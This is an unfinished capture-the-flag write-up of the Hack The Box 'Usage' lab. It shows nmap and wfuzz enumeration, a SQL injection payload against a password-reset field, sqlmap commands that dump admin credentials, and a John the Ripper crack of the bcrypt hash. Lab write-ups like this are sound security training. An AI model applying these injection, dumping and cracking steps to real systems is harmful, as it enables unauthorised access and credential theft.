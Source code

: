 # ROOM
Usage from HTB :)

I want to write  this writeup in english this time :)

# Information gathering
This is a website, with login, register and admin page.

As we can see in cookie, it using laravel. And that all.
# Enumeration
## Nmap
We're gonna scan the attack surface using nmap
```
nmap -sC -sV $TARGET -p -o nmap.txt
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 04:00 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Daily Blogs
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 292.50 seconds
```
## Wfuzz
Using wfuzz, we can see they have only 1 avaible subdomain
```
wfuzz -c -u http://usage.htb -H "Host: FUZZ.usage.htb" -w /home/kali/Wordlist/subdomains-top1million-5000.txt --hc 301
```
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://usage.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                               
=====================================================================

000000024:   200        88 L     226 W      3304 Ch     "admin"                                                                                               

Total time: 12.70573
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 392.6572
```
## Manual search
After trying multiple things, i found a field vulnerable to SQL injection in reset password page.

This payload :
```
bleh@bleh.com' AND 1=1;-- -
```
Return :
```
We have e-mailed your password reset link to bleh@bleh.com' AND 1=1;-- - 
```
Wich means its vulnerable.

# Exploitation
With SQL Map, we're gonna try to exploit the SQL injection to get some credentials or other usefull stuff.

I catch the request using burpsuite:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IlI1T3JPcXY3M213Y3ZYdzg3V2gvM3c9PSIsInZhbHVlIjoiVllIVGUvclV3ajZ6dnREc2xLVHNrMGNuMERHSS8rc0tzdmwzb2YybFBzVkM5N29NYTVwVHMzdGVpYmU4VkpYSjlCaFQrSGRvTlVhWk5ma1liZzAvRDFjMzN3R3djeXBZTXI0c0RIbXgyMTZMU0ROVkVVdUgwemZNT21XYnZESlEiLCJtYWMiOiI4MmEzZWViZDYzMjVlNWUyMTgxYTY1ZmFkODExODQ3MGEyYzE4Y2M4MzEwN2ViMjE1NDgxNjEwNDRiMGU3NmQxIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ik8va1UrVWFQSVZUeE40aDRkbTNZZXc9PSIsInZhbHVlIjoiTFNUd1VScDhNZmJSQXAxaTRiR2t3NktSaTYzQXk0M0pEa0pGUjJFc2VrOTNYOTcyU0ZFU3JLVTRPWnQreGgva01zRDZQNlBmZnlqRUJQY25jMUNwdzkwUDZ4V01xNFptUlA2RSs3WFUydFg2d2xPT292Rm5zdklkZ0h2TXJoQVUiLCJtYWMiOiIxNjgwZGYwMTQzMTY3OWY3ZWUzYzJkMWVlMWZiM2ExZThiMGUxOTM3OGE0MGI0ZGI5MjE1NDAzZjFhZmVlMTA1IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=hK2lIyI4ojEn9lACt8ogdKKBepGlCFp0WaEC5Ssh&email=test
```
Save it to file (like req.txt) then use sqlmap. Its a challenge, so we dont care about the risk or other sneaky parameters.
```
sqlmap -r req.txt -p email -bash --dump-all
```
It found some usefull stuff but it can't dump the admin_users :
```
[08:55:07] [ERROR] unable to retrieve the number of columns for table 'admin_users' in database 'usage_blog'
[08:55:07] [WARNING] unable to retrieve column names for table 'admin_users' in database 'usage_blog'
[08:55:07] [WARNING] unable to enumerate the columns for table 'admin_users' in database 'usage_blog'
```
We're gonna try to dump **admin_users**, i added --dbms to be more accurate because now we knew it use MySQL.
```
sqlmap -r req.txt -p email --batch --dbms=MySQL -T admin_users --dump
```
```
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
```
We have a token. But no password. We're gonna try to get the password column now
```
sqlmap -r req.txt -p email --batch --dbms=MySQL -T admin_users -C password --dump
```
```
+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+--------------------------------------------------------------+
```
Finally !

Now, we need to crack it.
```
john --wordlist=/home/kali/Wordlist/rockyou.txt hash  
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:11 DONE (2024-04-29 09:57) 0.08888g/s 144.0p/s 144.0c/s 144.0C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
So, here the admin account :
```
Administrator
whatever1
```
# Post exploit

**NOT FINISH YET**
**The admin account doesnt work and i dont know why. i'm working on it !** 
